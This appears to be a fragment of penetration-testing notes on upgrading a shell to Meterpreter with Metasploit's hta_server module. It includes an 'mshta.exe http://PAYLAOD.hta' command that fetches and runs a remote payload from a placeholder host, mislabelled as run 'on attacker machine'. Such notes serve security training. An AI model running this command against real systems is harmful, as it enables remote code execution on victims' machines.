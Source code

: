 # Metasploit 
## Upgrading from  a regular shell to Meterpreter
#### Module :
**1- exploit/windows/misc/hta_server**
- This module hosts an HTML Application (HTA) that when opened will run a payload via Powershell.. 
- On attacker machine 
```powershell
mshta.exe http://PAYLAOD.hta
```
